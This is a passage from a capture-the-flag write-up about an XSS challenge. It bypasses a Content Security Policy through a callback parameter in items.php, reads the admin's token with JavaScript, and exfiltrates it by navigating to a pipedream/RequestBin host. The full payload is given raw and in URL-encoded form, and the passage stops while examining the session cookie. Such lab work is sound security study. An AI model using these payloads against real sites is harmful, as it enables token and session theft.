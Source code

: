 Because of the `Content Security Policy`, we can't make any requests to domains besides `*.xss.allesctf.net`
but we can simply navigate to the page instead.

That will still send the request but since we are leaving the original page at the same time it won't be blocked by the `Content Security Policy`.

In JavaScript we can just do this:
```javascript
let token = $("#stage2").attr("href").split("=")[1];
location = "//enbdblkpmmbod.x.pipedream.net/" + token;
```

We can then URL-encode that script (e.g. using [urlencoder.org](https://www.urlencoder.org/)) to pass it to `items.php`:
```
http://xss.allesctf.net/items.php?cb=let%20token%20%3D%20%24%28%22%23stage2%22%29.attr%28%22href%22%29.split%28%22%3D%22%29%5B1%5D%3B%0Alocation%20%3D%20%22%2F%2Fenbdblkpmmbod.x.pipedream.net%2F%22%20%2B%20token%3B
```

Then we put that in a `script` tag:
```html
<script src="http://xss.allesctf.net/items.php?cb=let%20token%20%3D%20%24%28%22%23stage2%22%29.attr%28%22href%22%29.split%28%22%3D%22%29%5B1%5D%3B%0Alocation%20%3D%20%22%2F%2Fenbdblkpmmbod.x.pipedream.net%2F%22%20%2B%20token%3B"></script>
```

Then URL-encode that again and pass it to the search:
```
http://xss.allesctf.net/?search=%3Cscript%20src%3D%22http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dlet%2520token%2520%253D%2520%2524%2528%2522%2523stage2%2522%2529.attr%2528%2522href%2522%2529.split%2528%2522%253D%2522%2529%255B1%255D%253B%250Alocation%2520%253D%2520%2522%252F%252Fenbdblkpmmbod.x.pipedream.net%252F%2522%2520%252B%2520token%253B%22%3E%3C%2Fscript%3E
```

Trying this out in our browser will give an error: `ReferenceError: $ is not defined`.

The problem is that our `script` will be placed before the `script` that loads `jQuery`, so `$` is not yet defined when it runs.

We can just defer our script to run after all the normal scripts using the `defer` attribute:

```html
<script defer src="http://xss.allesctf.net/items.php?cb=let%20token%20%3D%20%24%28%22%23stage2%22%29.attr%28%22href%22%29.split%28%22%3D%22%29%5B1%5D%3B%0Alocation%20%3D%20%22%2F%2Fenbdblkpmmbod.x.pipedream.net%2F%22%20%2B%20token%3B"></script>
```

If we now URL-encode that again, pass it to the search and send the link to the admin we will quickly see a request like this in [RequestBin](https://requestbin.com/):
```
/5e73de0e6dd59
```

This should be the token from the admin. However, if we now try to access the `Stage 2` page with that token we only get `Access Denied`.

It looks like there is something else required together with the token to access the page.
Taking a look at the cookies we will find that the page sets a cookie called `PHPSESSID`.

